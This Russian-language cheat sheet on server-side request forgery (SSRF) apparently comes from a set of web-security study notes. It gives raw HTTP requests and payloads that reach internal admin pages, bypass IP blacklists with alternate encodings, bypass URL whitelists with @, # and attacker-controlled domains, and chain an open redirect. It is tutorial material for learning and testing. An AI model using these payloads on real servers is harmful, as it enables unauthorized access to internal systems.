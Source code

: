 SSRF - это уязвимость, эксплуатируя которую, злоумышленник может заставить сервер отправить запрос на произвольный адрес. То есть отправить его запрос от имени сервера.

## Типичная SSRF для сервисов на самом сайте
Оригинальный запрос:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://example.com:8080/product/stock/check?productId=6&storeId=1
```

Редактированный запрос:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://example.com/admin&storeId=1
```

## Типичная SSRF против внутренних хостов
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Обход black-listed фильтров SSRF
```
stockApi=http://127.1/admin
stockApi=http://017700000001/admin
stockApi=http://2130706433/admin
```
Регистрация своего доменного имени, который резолвит 127.0.0.1:
```
spoofed.burpcollaborator.net
```
Также для обхода фильтров можно использовать URL-энкодинг и смену регистра.

## Обход white-listed фильтров SSRF
Некоторые веб-приложения разрешают только ввод, который начинается или содержит, значения из вайтлиста или разрешенные значения.
В этом случае можно обойти фильтр, используя несоответствия при синтаксическом анализе URL.
Спецификация URL-адреса содержит ряд функций, которые могут быть упущены из виду при реализации специального синтаксического анализа и проверки URL-адресов.
- Вы можете вставить учетные данные в URL-адрес перед именем хоста, используя символ @:
```
https://example.com@evil-host
```
-  Вы можете использовать символ # для обозначения фрагмента URL:
```
https://example.com#expected-host
```
- Вы можете использовать иерархию DNS-имен, чтобы поместить необходимые входные данные в полностью определенное DNS-имя, которое вы контролируете:
```
https://example.com.evil-host
```

## Обход фильтров SSRF с помощью открытых редиректов
Например, если приложение содержит открытый редирект в данной URL:
’’’
/product/nextProduct?currentProductId=6&path=http://evil-user.net
’’’
То оно перенаправит на:
```
http://evil-user.net
```

Можно использовать уязвимость Open Redirect, чтобы обойти URL-фильтр и заэксплуатировать SSRF:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://example.com/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
